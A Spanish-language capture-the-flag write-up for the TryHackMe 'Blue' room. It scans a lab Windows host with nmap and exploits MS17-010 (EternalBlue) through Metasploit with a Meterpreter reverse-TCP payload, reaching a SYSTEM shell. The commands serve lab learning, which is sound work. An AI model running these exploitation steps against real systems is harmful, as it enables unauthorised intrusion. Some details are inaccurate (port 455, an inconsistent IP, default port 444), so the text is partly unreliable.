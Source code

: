 ```yaml
---
title : Máquina|Blue|THM|SMB|ETERNALBLUE
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/blue/blue.gif" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>

<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254

<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports

<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto 455 veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254

<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a ( ms17-010 EternalBlue ), ahora explotemos conmsfconsole, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue

<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp

<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con set rhosts.</p>

<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>

<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>

<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos exploit para iniciar el ataque.</p>

<img src="/imgs/blue/blue8.jpg"/>
* <p>Listo si ejecuta el comando Shell, y pone whoami sera autority system.</p>


